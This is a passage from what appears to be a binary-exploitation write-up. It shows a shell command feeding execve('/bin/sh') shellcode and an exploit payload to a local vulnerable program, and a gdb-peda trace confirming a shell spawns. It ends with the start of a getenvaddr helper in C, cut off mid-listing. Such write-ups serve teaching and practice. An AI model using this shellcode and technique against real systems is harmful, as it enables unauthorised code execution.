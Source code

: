 ```python
print(encrypt(payload))
```
`_IO_buf_end` is to indicate the end of the write.
When trying it out it looked to have worked:

```
./invoke.sh -d -e SHELLCODE=$(python -c 'print "\x31\xc0Ph//shh/bin\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0@\xcd\x80"') ./vuln abc $(python exploit.py)
(gdb) source /opt/peda/peda.py 
gdb-peda$ unset environment COLUMNS
gdb-peda$ unset environment LINES  
gdb-peda$ b *main+246 
Breakpoint 1 at 0x804866c: file vuln.c, line 28.
gdb-peda$ r
[----snip----]
gdb-peda$ si
[-------------------------------------code-------------------------------------]
   0x80483e0 <strcpy@plt>:      jmp    DWORD PTR ds:0x8049954
   0x80483e6 <strcpy@plt+6>:    push   0x10
   0x80483eb <strcpy@plt+11>:   jmp    0x80483b0
=> 0x80483f0 <exit@plt>:        jmp    DWORD PTR ds:0x8049958
 | 0x80483f6 <exit@plt+6>:      push   0x18
 | 0x80483fb <exit@plt+11>:     jmp    0x80483b0
 | 0x8048400 <strlen@plt>:      jmp    DWORD PTR ds:0x804995c
 | 0x8048406 <strlen@plt+6>:    push   0x20
 |->   0xffffdfaf:      xor    eax,eax
       0xffffdfb1:      push   eax
       0xffffdfb2:      push   0x68732f2f
       0xffffdfb7:      push   0x6e69622f
                                                                  JUMP is taken
0x080483f0 in exit@plt ()
gdb-peda$ si
[-------------------------------------code-------------------------------------]
=> 0xffffdfaf:  xor    eax,eax
   0xffffdfb1:  push   eax
   0xffffdfb2:  push   0x68732f2f
   0xffffdfb7:  push   0x6e69622f
0xffffdfaf in ?? ()
gdb-peda$ c
Continuing.
process 10672 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
$
```

## Making it work outside of a debugger
To get the different addresses that are used outside of `gdb` I used `getenvaddr`, `ltrace` and `gdb`:
```c
/* compiled with: gcc getenvaddr.c -m32 -o getenvaddr */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
                exit(0);
        }
```

[link-1]: https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/
[link-2]: https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique
[link-3]: https://blog.bushwhackers.ru/tokyo2019-printf/
[link-4]: http://docs.pwntools.com/en/stable/
